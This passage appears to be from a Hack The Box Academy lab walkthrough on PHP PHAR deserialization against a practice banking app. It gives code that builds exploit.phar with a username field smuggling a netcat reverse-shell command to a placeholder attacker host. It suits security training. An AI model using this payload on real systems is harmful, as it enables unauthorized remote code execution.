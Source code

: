 ```shell
touch UserSettings.php
cat app/Helpers/UserSettings.php > UserSettings.php
```

```shell
┌─[us-academy-1]─[10.10.14.126]─[htb-ac413848@htb-czme8jwrxv]─[~/htbank-clean]
└──╼ [★]$ touch UserSettings.php
┌─[us-academy-1]─[10.10.14.126]─[htb-ac413848@htb-czme8jwrxv]─[~/htbank-clean]
└──╼ [★]$ cat app/Helpers/UserSettings.php > UserSettings.php 
```

Then, in the same directory, students need to create a file called `exploit.php` and make its contents to generate a PHAR archive named `exploit.phar`, and set its metadata to a `UserSettings` object with the username `"; nc -nv PWNIP PWNPO -e /bin/bash;#`, the email address `admin@htbank.com`, the `Bcrypt` hash of the plaintext `password` (students can either use the same hash `$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda` that was utilized in the section or use [bcrypt-generator](https://bcrypt-generator.com/) to generate one), and the default image `default.jpg`:

Code: php

```php
<?php
include('UserSettings.php');

$phar = new Phar("exploit.phar");

$phar->startBuffering();

$phar->addFromString('0', '');
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata(new \App\Helpers\UserSettings('"; nc -nv PWNIP PWNPO -e /bin/sh ;#', 'admin@htbank.com', '$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda', 'default.jpg'));

$phar->stopBuffering();
```

Students can use `cat` to save the exploit code into `exploit.php`:

Code: shell

```shell
cat << 'EOF' > exploit.php
<?php
include('UserSettings.php');

$phar = new Phar("exploit.phar");

$phar->startBuffering();

$phar->addFromString('0', '');
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata(new \App\Helpers\UserSettings('"; nc -nv PWNIP PWNPO -e /bin/sh ;#', 'admin@htbank.com', '$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda', 'default.jpg'));

$phar->stopBuffering();
EOF
```
